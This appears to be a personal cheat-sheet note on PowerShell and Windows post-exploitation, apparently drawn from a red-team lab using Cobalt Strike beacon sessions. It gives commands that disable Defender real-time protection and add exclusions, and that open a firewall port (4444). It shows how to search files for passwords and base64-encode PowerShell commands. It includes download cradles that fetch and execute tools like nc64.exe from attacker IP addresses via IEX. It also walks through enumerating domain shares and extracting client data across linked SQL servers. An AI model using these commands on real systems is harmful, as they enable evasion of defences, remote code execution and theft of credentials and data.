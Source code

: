 net ---
creation date: September 22nd 2022
last modified date: September 22nd 2022
aliases: []
tags: #📕
---

Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[03 - Content/powershell]]  
___

## Description:  

### Useful Commands

info on current user
`whoami /ALL

list all local users
`net user



### pscp
For moving files

```
C:\> pscp src des
#push
C:\> pscp root@kail:/path/to/file C:\Path\
#pull
C:\> pscp C:\Path\to\file root@kali:/path/
# -r is for folders
```

### Disable defender

^aec913

disable Defender's Real-time protection (This script contains malicious content and has been blocked by your antivirus software.)

`Set-MpPreference -DisableRealtimeMonitoring $true

`Get-MpPreference` can be used to list the current exclusions.  This can be done locally, or remotely using `remote-exec`.

```
beacon> remote-exec winrm dc-2 Get-MpPreference | select Exclusion*

ExclusionExtension : 
ExclusionIpAddress : 
ExclusionPath : {C:\Shares\software}
ExclusionProcess :
```

If the exclusions are configured via GPO and you can find the corresponding Registry.pol file, you can read them with `Parse-PolFile`.

```
PS C:\Users\Administrator\Desktop> Parse-PolFile .\Registry.pol

KeyName : Software\Policies\Microsoft\Windows Defender\Exclusions
ValueName : Exclusions_Paths
ValueType : REG_DWORD
ValueLength : 4
ValueData : 1

KeyName : Software\Policies\Microsoft\Windows Defender\Exclusions\Paths
ValueName : C:\Windows\Temp
ValueType : REG_SZ
ValueLength : 4
ValueData : 0
```

In a pinch, you can even add your own exclusions.
```
Set-MpPreference -ExclusionPath "<path>"
```

Or look for ones that already exist
`powershell $(get-MpPreference).ExclusionPath


### Windows error codes

```
C:\>net helpmsg 32
The process cannot access the file because it is being used by another process.
```

### Windows Firewalls rules

This can be done with the built-in `netsh` utility. To add an allow rule:
```
netsh advfirewall firewall add rule name="Allow 4444" dir=in action=allow protocol=TCP localport=4444
```

To remove that rule:
```
netsh advfirewall firewall delete rule name="Allow 4444" protocol=TCP localport=4444
```


### List of services

```
wmic service list brief
```

### Look for Passwords

```
finstr /si password *.txt 2> nul | more 

Also consider *.xml, *.ini, *.*

findstr /spin “password” *.* 2> nul | more
```

### web requests
```
powershell -command "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.8:80/beRoot.py','beRoot.py')"

echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.12:8000/nc64.exe') | powershell -noprofile -

powershell –c "IEX(New-Object NET.WebClient).downloadString('http://10.10.14.45:1234/required_tool’)”

curl.exe -o tool [http://10.10.14.45:1234/required_tool](http://10.10.14.45:1234/required_tool)

Invoke-WebRequest [http://10.10.14.45:1234/required_tool](http://10.10.14.45:1234/required_tool) -O tool

```

### Powershell Encoding

```
From bash:
echo -n 'COMMAND' | iconv -f UTF8 -t UTF16LE| base64 -w 0
 
powershell -e ‘COMMAND’
```

### Find File Shares

`Find-DomainShare` will find SMB shares in a domain and `-CheckShareAccess` will only display those that the executing principal has access to.

```
beacon> powershell Find-DomainShare -ComputerDomain cyberbotic.io -CheckShareAccess

Name     Type Remark              ComputerName      
----     ---- ------              ------------      
data$       0                     dc-1.cyberbotic.io

beacon> ls \\dc-1.cyberbotic.io\data$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 17kb     fil     03/25/2021 12:54:11   63ec08038c04ac60dab340ee9569e690dataMar-25-2021.xlsx
 214kb    fil     03/25/2021 13:02:53   Apple iPhone 8.ai
 1mb      fil     03/25/2021 13:02:55   Boeing 787-8 DreamLiner Air Canada.ai
 540kb    fil     03/25/2021 13:02:54   Caterpillar 345D L.ai
 829kb    fil     03/25/2021 13:02:55   Ducati 1098R (2011).ai
 895kb    fil     03/25/2021 13:02:55   Volkswagen Caddy Maxi (2020).ai
```

### Find Databases
We reviewed multiple methods for executing SQL queries in the **MS SQL Servers** section, but they would not scale well for searching across dozens of instances. PowerUpSQL provides some additional cmdlets designed for data searching and extraction.

One such cmdlet is `Get-SQLColumnSampleDataThreaded`, which can search one or more instances for databases that contain particular keywords in the column names.

```
beacon> powershell Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLColumnSampleDataThreaded -Keywords "project" -SampleSize 5 | select instance, database, column, sample | ft -autosize

Instance                     Database Column      Sample         
--------                     -------- ------      ------         
srv-1.dev.cyberbotic.io,1433 master   ProjectName Mild Sun       
srv-1.dev.cyberbotic.io,1433 master   ProjectName Warm Venus     
srv-1.dev.cyberbotic.io,1433 master   ProjectName Grim Lyric     
srv-1.dev.cyberbotic.io,1433 master   ProjectName Precious Castle
srv-1.dev.cyberbotic.io,1433 master   ProjectName Fine Devil
```

This can only search the instances you have direct access to, it won't traverse any SQL links. To search over the links use `Get-SQLQuery`.

```
beacon> powershell Get-SQLQuery -Instance "srv-1.dev.cyberbotic.io,1433" -Query "select * from openquery(""sql-1.cyberbotic.io"", 'select * from information_schema.tables')"

TABLE_CATALOG TABLE_SCHEMA TABLE_NAME            TABLE_TYPE
------------- ------------ ----------            ----------
master        dbo          spt_fallback_db       BASE TABLE
master        dbo          spt_fallback_dev      BASE TABLE
master        dbo          spt_fallback_usg      BASE TABLE
master        dbo          spt_values            VIEW      
master        dbo          spt_monitor           BASE TABLE
master        dbo          MSreplication_options BASE TABLE
master        dbo          VIPClients            BASE TABLE
```

```
beacon> powershell Get-SQLQuery -Instance "srv-1.dev.cyberbotic.io,1433" -Query "select * from openquery(""sql-1.cyberbotic.io"", 'select column_name from master.information_schema.columns')"

column_name
-----------
City
Name
OrgNumber
Street
VIPClientsID
```

```
beacon> powershell Get-SQLQuery -Instance "srv-1.dev.cyberbotic.io,1433" -Query "select * from openquery(""sql-1.cyberbotic.io"", 'select top 5 OrgNumber from master.dbo.VIPClients')"

OrgNumber  
---------  
65618655299
69838663099
12289506999
73723428599
51766460299
```

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 22nd 2022 (04:11 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
